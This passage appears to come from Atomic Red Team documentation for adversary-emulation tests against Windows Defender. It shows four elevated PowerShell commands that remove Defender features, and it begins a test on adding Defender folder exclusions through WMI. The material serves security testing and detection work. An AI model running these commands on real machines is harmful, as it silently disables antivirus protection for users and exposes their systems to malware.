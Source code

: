 



<br/>
<br/>

## Atomic Test #35 - Disable Windows Defender with PwSh Disable-WindowsOptionalFeature
The following Atomic will attempt to disable Windows-Defender using the built in PowerShell cmdlet Disable-WindowsOptionalFeature, Deployment Image Servicing and Management tool. 
Similar to DISM.exe, this cmdlet is used to enumerate, install, uninstall, configure, and update features and packages in Windows images.
A successful execution will not standard-out any details. Remove the quiet switch if verbosity is needed.
This method will remove Defender and it's packages.
Reference: https://docs.microsoft.com/en-us/powershell/module/dism/disable-windowsoptionalfeature?view=windowsserver2022-ps

**Supported Platforms:** Windows


**auto_generated_guid:** f542ffd3-37b4-4528-837f-682874faa012






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Disable-WindowsOptionalFeature -Online -FeatureName "Windows-Defender-Gui" -NoRestart -ErrorAction Ignore
Disable-WindowsOptionalFeature -Online -FeatureName "Windows-Defender-Features" -NoRestart -ErrorAction Ignore
Disable-WindowsOptionalFeature -Online -FeatureName "Windows-Defender" -NoRestart -ErrorAction Ignore
Disable-WindowsOptionalFeature -Online -FeatureName "Windows-Defender-ApplicationGuard" -NoRestart -ErrorAction Ignore
```






<br/>
<br/>

## Atomic Test #36 - WMIC Tamper with Windows Defender Evade Scanning Folder
The following Atomic will attempt to exclude a folder within Defender leveraging WMI
Reference: https://www.bleepingcomputer.com/news/security/gootkit-malware-bypasses-windows-defender-by-setting-path-exclusions/

**Supported Platforms:** Windows
